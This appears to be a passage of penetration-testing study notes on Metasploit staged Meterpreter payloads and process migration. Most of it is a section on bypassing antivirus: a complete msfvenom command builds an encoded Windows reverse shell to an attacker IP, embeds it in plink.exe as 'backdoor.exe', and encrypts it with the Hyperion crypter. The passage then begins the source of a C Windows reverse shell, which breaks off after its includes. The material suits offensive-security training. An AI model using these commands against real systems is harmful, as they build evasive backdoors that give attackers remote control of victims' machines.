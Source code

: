 In this case, as we set the payload to reverse_https_meterpreter, the handler
will start a first stage listener on our desired port, TCP 443. Once the first
stage payload is accepted by the multi/handler, the second stage of the payload
is fed back to the target machine by the handler.

the Meterpreter payload is able to migrate from one process to another as long
as it migrates into a similar or lower authority process. This allows us to
migrate to more stable processes, which will continue running even after the
client application is closed.

Bypassing Antivirus Software

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o
shell_reverse_msf_encoded_embedded.exe

cp shell_reverse_msf_encoded_embedded.exe backdoor.exe

cp /usr/share/windows-binaries/Hyperion-1.0.zip .

unzip Hyperion-1.0.zip

cd Hyperion-1.0/

i686-w64-mingw32-g++ Src/Crypter/\*.cpp -o hyperion.exe

cp -p /usr/lib/gcc/i686-w64-mingw32/6.1-win32/libgcc_s_sjlj-1.dll .

cp -p /usr/lib/gcc/i686-w64-mingw32/6.1-win32/libstdc++-6.dll .

wine hyperion.exe ../backdoor.exe ../crypted.exe

Using Custom/Uncommon Tools and Payloads

C reverse shell code:

/\* Windows Reverse Shell

Tested under windows 7 with AVG Free Edition.

Author: blkhtc0rp

Compile: wine gcc.exe windows.c -o windows.exe -lws2_32

Written 2010 - Modified 2012

This program is open source you can copy and modify, but please keep author
credits!

http://code.google.com/p/blkht-progs/

https://snipt.net/blkhtc0rp/

\*/

\#include \<winsock2.h\>

\#include \<stdio.h\>

\#pragma comment(lib,"ws2_32")

WSADATA wsaData;
